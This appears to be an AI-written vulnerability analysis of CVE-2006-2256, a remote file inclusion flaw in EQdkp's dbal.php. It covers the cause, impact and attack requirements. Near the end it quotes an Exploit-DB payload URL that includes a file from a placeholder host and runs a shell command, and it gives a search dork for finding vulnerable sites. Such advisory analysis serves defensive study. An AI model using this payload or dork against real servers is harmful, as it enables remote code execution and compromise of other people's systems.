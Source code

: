 Based on the provided information, here's an analysis of CVE-2006-2256:

**Root Cause of Vulnerability:**

The vulnerability is a **Remote File Inclusion (RFI)** vulnerability. This occurs because the `dbal.php` file in EQdkp versions 1.3.0 and earlier includes the `eqdkp_root_path` parameter without proper sanitization or validation. This allows an attacker to specify a remote URL, which is then included and executed by the server.

**Weaknesses/Vulnerabilities Present:**

- **Remote File Inclusion:** The primary vulnerability is the ability to include and execute arbitrary remote files.
- **Lack of Input Sanitization/Validation:** The `eqdkp_root_path` parameter is not validated before being used to include a file.

**Impact of Exploitation:**

- **Arbitrary Code Execution:** By including a malicious remote file, an attacker can execute arbitrary code on the server, leading to a complete compromise of the system.
- **Data Theft/Manipulation:** Attackers could gain access to sensitive data or modify existing data within the application's database.
- **Denial of Service:** In certain cases, an included file might crash the server causing DoS.

**Attack Vectors:**

- **HTTP GET Request:** The vulnerability can be exploited by crafting a malicious HTTP GET request to `dbal.php` that includes a remote URL within the `eqdkp_root_path` parameter.

**Required Attacker Capabilities/Position:**

- **Network Connectivity:** The attacker needs to be able to send HTTP requests to the vulnerable server.
- **Knowledge of the Vulnerability:** The attacker needs to know about the RFI vulnerability in the `dbal.php` file.
- **Ability to Host a Malicious File:** The attacker needs a location to host the malicious file intended for inclusion.

**Additional Information:**

- The exploit example from Exploit-DB shows an attacker using the following to achieve command execution: `/includes/dbal.php?eqdkp_root_path=http://yourhost/cmd.gif?cmd=ls`
- This demonstrates how a remote file can be included with arbitrary commands that will then be executed by the webserver.
- The Exploit-DB entry also includes the search dork `"powered by EQdkp"` to help find vulnerable instances of the software.

This content provides useful vulnerability information and the provided details are more extensive than a typical CVE description.